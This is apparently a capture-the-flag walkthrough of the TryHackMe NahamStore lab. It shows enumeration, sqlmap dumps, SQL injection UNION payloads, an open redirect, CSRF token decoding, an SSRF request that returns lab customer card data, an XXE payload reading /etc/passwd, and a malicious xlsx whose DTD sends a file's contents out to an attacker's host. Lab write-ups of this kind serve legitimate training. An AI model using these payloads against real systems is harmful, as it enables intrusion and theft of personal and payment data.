

# TryHackMe-NahamStore

### Laboratory Environment

[NahamStore](https://tryhackme.com/r/room/nahamstore)

### Penetration Approaches and Commands

> **Network Enumeration Phase**
> 

`nmap -sSVC -T4 -A -O -oN nmap_result.txt -Pn -p- --min-rate 1000 --max-retries 3 $target_ip`

```jsx
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 84:6e:52:ca:db:9e:df:0a:ae:b5:70:3d:07:d6:91:78 (RSA)
|   256 1a:1d:db:ca:99:8a:64:b1:8b:10:df:a9:39:d5:5c:d3 (ECDSA)
|_  256 f6:36:16:b7:66:8e:7b:35:09:07:cb:90:c9:84:63:38 (ED25519)
80/tcp   open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: NahamStore - Setup Your Hosts File
8000/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-open-proxy: Proxy might be redirecting requests
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: nginx/1.18.0 (Ubuntu)
```

> **Subdomain & Virtual Host Enumeration Phase**
> 

`ffuf -u 'PROTOCOL://nahamstore.thm/' -H 'Host: HOST.nahamstore.thm' -w <(echo -e "http\nhttps"):PROTOCOL -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt:HOST -ic -mc 200,301,302,403 -t 70 -fl 25`

```jsx
[Status: 301, Size: 194, Words: 7, Lines: 8, Duration: 325ms]
    * HOST: www
    * PROTOCOL: http

[Status: 301, Size: 194, Words: 7, Lines: 8, Duration: 325ms]
    * HOST: shop
    * PROTOCOL: http

[Status: 200, Size: 2025, Words: 692, Lines: 42, Duration: 452ms]
    * HOST: marketing
    * PROTOCOL: http

[Status: 200, Size: 67, Words: 1, Lines: 1, Duration: 855ms]
    * HOST: stock
    * PROTOCOL: http
```

`nano /etc/hosts`

```jsx
10.10.179.80 www.nahamstore.thm nahamstore.thm stock.nahamstore.thm marketing.nahamstore.thm shop.nahamstore.thm nahamstore-2020-dev.nahamstore.thm
```

> **Directory Scan & Endpoint Control Phase**
> 

`gobuster dir -u http://nahamstore.thm -w /usr/share/wordlists/dirb/common.txt -b 403,404,500,501,502,503 -e --random-agent -x php,txt,html -t 50`

```jsx
http://nahamstore.thm/basket               (Status: 200) [Size: 2465]
http://nahamstore.thm/css                  (Status: 301) [Size: 178] [--> http://127.0.0.1/css/]
http://nahamstore.thm/js                   (Status: 301) [Size: 178] [--> http://127.0.0.1/js/]
http://nahamstore.thm/login                (Status: 200) [Size: 3099]
http://nahamstore.thm/logout               (Status: 302) [Size: 0] [--> /]
http://nahamstore.thm/register             (Status: 200) [Size: 3138]
http://nahamstore.thm/returns              (Status: 200) [Size: 3628]
http://nahamstore.thm/robots.txt           (Status: 200) [Size: 13]
http://nahamstore.thm/robots.txt           (Status: 200) [Size: 13]
http://nahamstore.thm/search               (Status: 200) [Size: 3351]
http://nahamstore.thm/staff                (Status: 200) [Size: 2287]
http://nahamstore.thm/uploads              (Status: 301) [Size: 178] [--> http://127.0.0.1/uploads/]
```

`curl -iLX GET http://nahamstore.thm/robots.txt`

```jsx
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Fri, 20 Dec 2024 08:02:35 GMT
Content-Type: text/plain
Content-Length: 13
Connection: keep-alive
Last-Modified: Fri, 12 Feb 2021 16:07:44 GMT
ETag: "6026a7d0-d"
Accept-Ranges: bytes

User-agent: *
```

`curl -iLX GET http://nahamstore.thm/`

```jsx

HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Fri, 20 Dec 2024 08:03:38 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
Set-Cookie: session=7fc1c7c327c9a40305650d53e2535819; expires=Fri, 20-Dec-2024 09:03:38 GMT; Max-Age=3600; path=/

[REDACTED] - MORE

<li class="active"><a href="/">Home</a></li>
                    <li><a href="/returns">Returns</a></li>
                                            <li><a href="/login">Login</a></li>
                        <li><a href="/register">Register</a></li>
                                        <li><a href="/basket"><span class="glyphicon glyphicon-shopping-cart"></span> 0 Items</a></li>

[REDACTED] - MORE

            <div class="product_holder" style="border:1px solid #ececec;padding: 15px;margin-bottom:15px">
                <div class="image text-center"><a href="/product?id=1&name=Hoodie+%2B+Tee"></a></div>
                <div class="text-center" style="font-size:20px"><strong><a href="/product?id=1">Hoodie + Tee</a></strong></div>
                <div class="text-center"><strong>$25.00</strong></div>
                <div class="text-center" style="margin-top:10px"><a href="/product?id=1" class="btn btn-success">View</a></div>
            </div>
            
[REDACTED] - MORE
```

`gobuster dir -u http://nahamstore-2020-dev.nahamstore.thm -w /usr/share/wordlists/dirb/common.txt -b 403,404,500,501,502,503 -e --random-agent -x php,txt,html -t 50`

```jsx
http://nahamstore-2020-dev.nahamstore.thm/api                  (Status: 302) [Size: 0] [--> /api/]
```

`gobuster dir -u http://nahamstore-2020-dev.nahamstore.thm/api/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt -b 403,404,500,501,502,503 -e --random-agent -x php,txt,html -t 50`

```jsx
http://nahamstore-2020-dev.nahamstore.thm/api/customers            (Status: 302) [Size: 0] [--> /api/customers/]
```

`curl -iLX GET http://nahamstore-2020-dev.nahamstore.thm/api/customers`

```jsx
HTTP/1.1 302 Found
Server: nginx/1.14.0 (Ubuntu)
Date: Fri, 20 Dec 2024 08:09:18 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
Location: /api/customers/

HTTP/1.1 400 Bad Request
Server: nginx/1.14.0 (Ubuntu)
Date: Fri, 20 Dec 2024 08:09:19 GMT
Content-Type: application/json
Transfer-Encoding: chunked
Connection: keep-alive

["customer_id is required"] 
```

`curl -sX GET 'http://nahamstore-2020-dev.nahamstore.thm/api/customers/?customer_id=2' | jq`

```jsx
{
  "id": 2,
  "name": "Jimmy Jones",
  "email": "jd.jones1997@yahoo.com",
  "tel": "501-392-5473",
  "ssn": "521-61-6392"
}
```

`gobuster dir -u http://marketing.nahamstore.thm -w /usr/share/wordlists/dirb/common.txt -b 403,404,500,501,502,503 -e --random-agent -x php,txt,html -t 50`

```jsx
[REDACTED] - NOTHING
```

> **Cross Site Scripting (XSS) Phase**
> 




`hashid '09c2afcff60bb4dd3af7c5c5d74a482f'`

```jsx
[+] MD2 
[+] MD5 
[+] MD4
```

`nano pythonhash.py`

```jsx
import hashlib

# Input and output file paths
input_file = "/usr/share/wordlists/dirb/common.txt"
output_file = "common_md5.txt"

# Open the input file and output file
with open(input_file, "r") as infile, open(output_file, "w") as outfile:
    for line in infile:
        # Remove any trailing whitespace or newlines
        directory = line.strip()
        if directory:  # Skip empty lines
            # Compute the MD5 hash of the line
            md5_hash = hashlib.md5(directory.encode('utf-8')).hexdigest()
            # Write the hash to the output file
            outfile.write(md5_hash + "\n")

print(f"MD5 hashes have been written to {output_file}")
```

`python3 pythonhash.py`

```jsx
0a97c9183c241136b2330a66266325fc
85cf9b51417c7cfb8766aa6b56f7edb9
5df83c78ea58fa2f7eb87e8085bea10c
5c3a99ab9c081acb3281ff5036721e79
f49fe62ec95142fc2acd5717a8172141
6d2b615139fd238e7c7471805068037e
e2ddc2b28774044e8a6ecfdfd5495bd7
62fbaccadbd8cb8752bef1fec326f9df
d0e6fdc84ddc0e7cf994f938f7017d58
758770671a1b5ec2e286c9d7e918c013

[REDACTED] - MORE
```

`gobuster dir -u http://marketing.nahamstore.thm -w common_md5.txt -b 403,404,500,501,502,503 -e --random-agent -t 50`

```jsx
http://marketing.nahamstore.thm/0a97c9183c241136b2330a66266325fc (Status: 302) [Size: 0]
[--> /?error=Campaign+Not+Found]
http://marketing.nahamstore.thm/5df83c78ea58fa2f7eb87e8085bea10c (Status: 302) [Size: 0]
[--> /?error=Campaign+Not+Found]
http://marketing.nahamstore.thm/85cf9b51417c7cfb8766aa6b56f7edb9 (Status: 302) [Size: 0]
[--> /?error=Campaign+Not+Found]

[REDACTED] - MORE
```


> **SQL Injection Phase**
> 

`curl -iLX GET http://nahamstore.thm/basket`

```jsx
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Fri, 20 Dec 2024 08:28:08 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
Set-Cookie: session=7a9e260178b5f1f33e4806a12ca086ba; expires=Fri, 20-Dec-2024 09:28:08 GMT; Max-Age=3600; path=/

[REDACTED] - MORE

                <h1 class="text-center">Shopping Basket</h1>

                
                                    <div class="alert alert-danger">
                        <p class="text-center">Your shopping basket is empty</p>
                    </div>
[REDACTED] - MORE
```


`sqlmap -r sqlmapreq.txt --random-agent --dump --batch --threads 10 --dbs`

```jsx
Table: sqli_two
+----+------------------------------------+
| id | flag                               |
+----+------------------------------------+
| 1  | {212ec3b036925a38b7167cf9f0243015} |
+----+------------------------------------+
```


`sqlmap -u 'http://nahamstore.thm/product?id=1' -p "id" --random-agent --dump --batch --dbms=MySQL`

```jsx
Database: nahamstore
Table: sqli_one
[1 entry]
+----+------------------------------------+
| id | flag                               |
+----+------------------------------------+
| 1  | {d890234e20be48ff96a2f9caab0de55c} |
+----+------------------------------------+
```


**PAYLOAD:**

```jsx
UNION SELECT NULL,@@version,NULL,NULL,NULL-- -
```


**PAYLOAD:**

```jsx
UNION SELECT NULL,database(),NULL,NULL,NULL-- -
```

> **Open Redirect Phase**
> 

`ffuf -u 'http://nahamstore.thm/?FUZZ=https://google.com' -c -ic -t 50 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -mc 200,301,302,303 -fl 83`

```jsx
r                       [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 346ms]
q                       [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 346ms]
```

`curl -iLX GET -D response.txt 'http://nahamstore.thm/?r=https://google.com'`

```jsx
HTTP/1.1 302 Found
Server: nginx/1.14.0 (Ubuntu)
Date: Fri, 20 Dec 2024 09:15:16 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
Set-Cookie: session=1e9004c3f6ee66ee84bfbf02afb023f1; expires=Fri, 20-Dec-2024 10:15:16 GMT; Max-Age=3600; path=/
Location: https://google.com

HTTP/2 301 
location: https://www.google.com/
content-type: text/html; charset=UTF-8
content-security-policy-report-only: object-src 'none';base-uri 'self';script-src 'nonce-zlwzW_mETCTpzdF8nBGSoA' 'strict-dynamic' 'report-sample' 'unsafe-eval' 'unsafe-inline' https: http:;report-uri https://csp.withgoogle.com/csp/gws/other-hp
date: Fri, 20 Dec 2024 09:15:16 GMT
expires: Sun, 19 Jan 2025 09:15:16 GMT
cache-control: public, max-age=2592000
server: gws
content-length: 220
x-xss-protection: 0
x-frame-options: SAMEORIGIN
alt-svc: h3=":443"; ma=2592000,h3-29=":443"; ma=2592000

HTTP/2 200 
date: Fri, 20 Dec 2024 09:15:16 GMT
expires: -1
cache-control: private, max-age=0
content-type: text/html; charset=ISO-8859-1
content-security-policy-report-only: object-src 'none';base-uri 'self';script-src 'nonce-yyShg-bRAtQhhG1cdT_l7g' 'strict-dynamic' 'report-sample' 'unsafe-eval' 'unsafe-inline' https: http:;report-uri https://csp.withgoogle.com/csp/gws/other-hp
accept-ch: Sec-CH-Prefers-Color-Scheme
p3p: CP="This is not a P3P policy! See g.co/p3phelp for more info."
server: gws
x-xss-protection: 0
x-frame-options: SAMEORIGIN
set-cookie: AEC=AZ6Zc-U6tMLv2b0mglQjSr2Y3fd8ix-OYb7Ukpz2yrTIJIrLYhIE8QrJiQ; expires=Wed, 18-Jun-2025 09:15:16 GMT; path=/; domain=.google.com; Secure; HttpOnly; SameSite=lax
set-cookie: NID=520=D9ytDibQV1Bvz_0OKGXk0z3b9p024JUT9RYLD5YAl-8lZymdpryWR0Z7S997ukk7mhR3tyBx2Q6vCP1S3lLdppQWKbdUqgJFfg6j9_scnatCVhdLWLseGbHZxuO1An_rH9Xo8ijpY3stlAXu5uJe9TJFuySBwIO95_2V2kOjr7eY8qTFdecEcc9Q0cE-3IpOiDfn; expires=Sat, 21-Jun-2025 09:15:16 GMT; path=/; domain=.google.com; HttpOnly
alt-svc: h3=":443"; ma=2592000,h3-29=":443"; ma=2592000
accept-ranges: none
vary: Accept-Encoding

[REDACTED] - MORE
```

> **Cross-Site Request Forgery (CSRF) Phase**
> 


`curl --path-as-is -iskLX $'GET' -b $'session=cbe3e73d636ed8592f15288e5a4497ae; token=7d61eb4c782ec1fdfb5bfd19697f8057' $'http://nahamstore.thm/account/settings/password'`

```jsx
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Fri, 20 Dec 2024 09:34:31 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
Set-Cookie: session=cbe3e73d636ed8592f15288e5a4497ae; expires=Fri, 20-Dec-2024 10:34:31 GMT; Max-Age=3600; path=/

[REDACTED] - MORE
```

`curl --path-as-is -iskLX $'GET' -b $'session=cbe3e73d636ed8592f15288e5a4497ae; token=7d61eb4c782ec1fdfb5bfd19697f8057' $'http://nahamstore.thm/account/settings/email'`

```jsx

HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Fri, 20 Dec 2024 09:35:13 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
Set-Cookie: session=cbe3e73d636ed8592f15288e5a4497ae; expires=Fri, 20-Dec-2024 10:35:13 GMT; Max-Age=3600; path=/

[REDACTED] - MORE

                        <form method="post">
<input type="hidden" name="csrf_protect" value="eyJkYXRhIjoiZXlKMWMyVnlYMmxrSWpvMExDSjBhVzFsYzNSaGJYQWlPaUl4TnpNME5qZzNNekV6SW4wPSIsInNpZ25hdHVyZSI6IjVlZjBlYjJiY2UyOTY2YTExZGVhNWZhZTE4MjZmNWYwIn0=">

[REDACTED] - MORE
```

`echo 'eyJkYXRhIjoiZXlKMWMyVnlYMmxrSWpvMExDSjBhVzFsYzNSaGJYQWlPaUl4TnpNME5qZzNNekV6SW4wPSIsInNpZ25hdHVyZSI6IjVlZjBlYjJiY2UyOTY2YTExZGVhNWZhZTE4MjZmNWYwIn0=' | base64 -d`

```jsx
{"data":"eyJ1c2VyX2lkIjo0LCJ0aW1lc3RhbXAiOiIxNzM0Njg3MzEzIn0=","signature":"5ef0eb2bce2966a11dea5fae1826f5f0"}
```

`echo 'eyJ1c2VyX2lkIjo0LCJ0aW1lc3RhbXAiOiIxNzM0Njg3MzEzIn0=' | base64 -d`

```jsx
{"user_id":4,"timestamp":"1734687313"}
```

> **Server-Side Request Forgery (SSRF) Phase**
> 


`ffuf -u 'http://nahamstore.thm/stockcheck' -c -ic -w /usr/share/seclists/Discovery/DNS/dns-Jhaddix.txt -X POST -d 'product_id=2&server=stock.nahamstore.thm@FUZZ.nahamstore.thm#' -mc 200,301,302,303`

```jsx
internal-api.nahamstore.thm
```


**OUTPUT:**

```jsx
{"server":"internal-api.nahamstore.com","endpoints":["\/orders"]}
```

`curl --path-as-is -iskLX $'POST' -H $'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H $'X-Requested-With: XMLHttpRequest' -H $'Connection: keep-alive' -b $'token=7d61eb4c782ec1fdfb5bfd19697f8057' --data-binary $'product_id=1&server=stock.nahamstore.thm@internal-api.nahamstore.thm/orders#' $'http://nahamstore.thm/stockcheck'`

```jsx
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Fri, 20 Dec 2024 11:37:45 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
Set-Cookie: session=3de97590eb69ade8968c46100c5daa3e; expires=Fri, 20-Dec-2024 12:37:45 GMT; Max-Age=3600; path=/

[
{"id":"4dbc51716426d49f524e10d4437a5f5a","endpoint":"\/orders\/4dbc51716426d49f524e10d4437a5f5a"},
{"id":"5ae19241b4b55a360e677fdd9084c21c","endpoint":"\/orders\/5ae19241b4b55a360e677fdd9084c21c"},
{"id":"70ac2193c8049fcea7101884fd4ef58e","endpoint":"\/orders\/70ac2193c8049fcea7101884fd4ef58e"}
]
```

`curl --path-as-is -skX $'POST' -H $'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H $'X-Requested-With: XMLHttpRequest' -H $'Connection: keep-alive' -b $'token=7d61eb4c782ec1fdfb5bfd19697f8057' --data-binary $'product_id=1&server=stock.nahamstore.thm@internal-api.nahamstore.thm/orders/5ae19241b4b55a360e677fdd9084c21c#' $'http://nahamstore.thm/stockcheck' | jq`

```jsx
{
  "id": "5ae19241b4b55a360e677fdd9084c21c",
  "customer": {
    "id": 2,
    "name": "Jimmy Jones",
    "email": "jd.jones1997@yahoo.com",
    "tel": "501-392-5473",
    "address": {
      "line_1": "3999  Clay Lick Road",
      "city": "Englewood",
      "state": "Colorado",
      "zipcode": "80112"
    },
    "items": [
      {
        "name": "Hoodie + Tee",
        "cost": "25.00"
      }
    ],
    "payment": {
      "type": "MasterCard",
      "number": "5190216301622131",
      "expires": "11/2023",
      "CVV2": "223"
    }
  }
}
```

> **XML External Entity (XXE) Phase**
> 


`curl -sX GET http://stock.nahamstore.thm/product/ | jq`

```jsx
{
  "items": [
    {
      "id": 1,
      "name": "Hoodie + Tee",
      "stock": 56,
      "endpoint": "/product/1"
    },
    {
      "id": 2,
      "name": "Sticker Pack",
      "stock": 293,
      "endpoint": "/product/2"
    }
  ]
}
```

`curl -sX GET http://stock.nahamstore.thm/product/1 | jq`

```jsx
{
  "id": 1,
  "name": "Hoodie + Tee",
  "stock": 56
}
```

`curl -iLX POST http://stock.nahamstore.thm/product/1`

```jsx
HTTP/1.1 401 Unauthorized
Server: nginx/1.14.0 (Ubuntu)
Date: Fri, 20 Dec 2024 11:45:23 GMT
Content-Type: application/json
Transfer-Encoding: chunked
Connection: keep-alive

["Missing header X-Token"]
```

`curl -iLX POST http://stock.nahamstore.thm/product/1 -H 'X-Token: anytoken'`

```jsx
HTTP/1.1 401 Unauthorized
Server: nginx/1.14.0 (Ubuntu)
Date: Fri, 20 Dec 2024 11:46:15 GMT
Content-Type: application/json
Transfer-Encoding: chunked
Connection: keep-alive

["X-Token anytoken is invalid"] 
```

`ffuf -u 'http://stock.nahamstore.thm/product/1?FUZZ=any' -c -ic -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -X POST -mc 200,301,302,303`

```jsx
xml
```

`curl -iLX POST http://stock.nahamstore.thm/product/1?xml=any -H 'X-Token: anytoken'`

```jsx
HTTP/1.1 400 Bad Request
Server: nginx/1.14.0 (Ubuntu)
Date: Fri, 20 Dec 2024 12:14:17 GMT
Content-Type: application/xml; charset=utf-8
Transfer-Encoding: chunked
Connection: keep-alive

<?xml version="1.0"?>
<data><error>Invalid XML supplied</error></data>
```


**PAYLOAD:**

```jsx
<?xml version="1.0"?>
<!DOCTYPE data [ <!ELEMENT data ANY> <!ENTITY xxe SYSTEM "/etc/passwd" >]>
<data><X-Token>
&xxe;
</X-Token>
</data>
```


`7z x -oXXE malpayload.xlsx`

```jsx
7-Zip 24.08 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-08-11
 64-bit locale=en_US.UTF-8 Threads:7 OPEN_MAX:1024

Scanning the drive for archives:
1 file, 5071 bytes (5 KiB)

Extracting archive: malpayload.xlsx
--
Path = malpayload.xlsx
Type = zip
Physical Size = 5071

Everything is Ok

Files: 9
Size:       13056
Compressed: 5071
```

`ls -lsa XXE`

```jsx
total 24
4 drwxr-xr-x 5 root root 4096 Dec 20 07:28  .
4 drwxr-xr-x 3 root root 4096 Dec 20 07:28  ..
4 -rw-r--r-- 1 root root 1344 Dec 20  2024 '[Content_Types].xml'
4 drwxr-xr-x 2 root root 4096 Dec 20 07:28  docProps
4 drwxr-xr-x 2 root root 4096 Dec 20 07:28  _rels
4 drwxr-xr-x 5 root root 4096 Dec 20 07:28  xl

```

`ls -lsa XXE/xl`

```jsx
total 32
4 drwxr-xr-x 5 root root 4096 Dec 20 07:28 .
4 drwxr-xr-x 5 root root 4096 Dec 20 07:28 ..
4 drwxr-xr-x 2 root root 4096 Dec 20 07:28 _rels
8 -rw-r--r-- 1 root root 4451 Dec 20  2024 styles.xml
4 drwxr-xr-x 2 root root 4096 Dec 20 07:28 theme
4 -rw-r--r-- 1 root root  878 Dec 20  2024 workbook.xml
4 drwxr-xr-x 2 root root 4096 Dec 20 07:28 worksheets
```

`nano malxml.dtd`

```jsx
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/flag.txt">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM'http://10.2.37.37:8000/malxml.dtd?%data;'>">
```

`nano XXE/xl/workbook.xml`

```jsx
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://10.2.37.37:8000/malxml.dtd">
%sp;
%param1;
]>
<r>&exfil;</r>

<workbook xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships"><fileVersion appName="Calc"/><workbookPr backupFile="false" showObjects="all" date1904="false"/><workbookProtection/><bookViews><workbookView showHorizontalScroll="true" showVerticalScroll="true" showSheetTabs="true" xWindow="0" yWindow="0" windowWidth="16384" windowHeight="8192" tabRatio="500" firstSheet="0" activeTab="0"/></bookViews><sheets><sheet name="Sheet1" sheetId="1" state="visible" r:id="rId3"/></sheets><calcPr iterateCount="100" refMode="A1" iterate="false" iterateDelta="0.001"/><extLst><ext xmlns:loext="http://schemas.libreoffice.org/" uri="{7626C862-2A13-11E5-B345-FEFF819CDC9F}"><loext:extCalcPr stringRefSyntax="CalcA1"/></ext></extLst></workbook>
```

`7z u malpayload.xlsx`

```jsx
7-Zip 24.08 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-08-11
 64-bit locale=en_US.UTF-8 Threads:7 OPEN_MAX:1024

Open archive: malpayload.xlsx
--
Path = malpayload.xlsx
Type = zip
Physical Size = 5071

Scanning the drive:
7 folders, 16 files, 179081 bytes (175 KiB)

Updating archive: malpayload.xlsx

Keep old data in archive: 9 files, 13056 bytes (13 KiB)
Add new data to archive: 7 folders, 16 files, 179081 bytes (175 KiB)

                              
Files read from disk: 16
Archive size: 107968 bytes (106 KiB)
Everything is Ok
```

`python3 -m http.server 8000`

```jsx
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```


```jsx
//e2Q2YjIyY2IzZTM3YmVmMzJkODAwMTA1YjExMTA3ZDhmfQo=
```

`echo 'e2Q2YjIyY2IzZTM3YmVmMzJkODAwMTA1YjExMTA3ZDhmfQo=' | base64 -d`

```jsx
{d6b22cb3e37bef32d800105b11107d8f}
```